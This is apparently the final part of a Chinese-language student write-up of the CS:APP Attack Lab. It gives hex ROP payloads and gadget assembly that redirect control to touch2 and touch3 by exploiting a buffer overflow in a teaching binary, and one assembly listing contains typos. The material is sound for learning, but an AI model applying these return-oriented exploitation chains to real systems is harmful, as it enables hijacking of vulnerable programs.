 ```cpp
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
ab 19 40 00 00 00 00 00 //pop    %rax
fa 97 b9 59 00 00 00 00 
c6 19 40 00 00 00 00 00 //mov    %eax,%edi
ec 17 40 00 00 00 00 00 //控制转移到touch2
```

### part II level 3

这一部分我们要调用的是touch3函数。我们做完了前面，就已经可以得到95分了，所以这里真的很难。难的地方主要有两个，第一是由于栈随机化，我们可以把字符串放在栈上，但是字符串的地址不能自己计算，只能通过已知的变量进行偏移得到。第二是因为要满足前面的要求，所以汇编代码比较长，不好写也不好调试。

我自己做的时候，没有明白前面一点，感觉不是很难，所以就失败了。看了别人的答案后，发现真的挺复杂的，主要是汇编代码编写上的问题。这里我也不分析了，流程和前面一样，只不过流程长了一点。这里我直接给出汇编代码。

```cpp
mov %rsp, %rax
mov %rax, %rdi
popq %rax //栈值为0x48
movl %eax, %edx
movl %edx,%ecx
movl %ecx, %esi
leap (%rdi,%rsi,1),%rax //rax = 栈顶值 + 0x48
mov %rax,rdi //传递参数
```

对应的答案为：

```cpp
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00
cc 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00 //字符串距离栈顶的距离
dd 19 40 00 00 00 00 00
69 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00 //touch3地址
35 39 62 39 39 37 66 61 //字符串
00
```
### 结束语

总的来说，这个实验，就最后一个比较难，其他的难度不是很高，只要认真做，做出来不难。做实验之前，还是要仔细阅读实验手册，这样可以避免一些弯路；最好不要一上来就看别人的博客。

这个实验使我意识到了，一个软件的安全性，取决于它最薄弱的环节。就像Part II，虽然栈上禁止执行代码，并且有栈随机化的机制，但由于一个缓冲区溢出的漏洞，还是可能受到攻击。
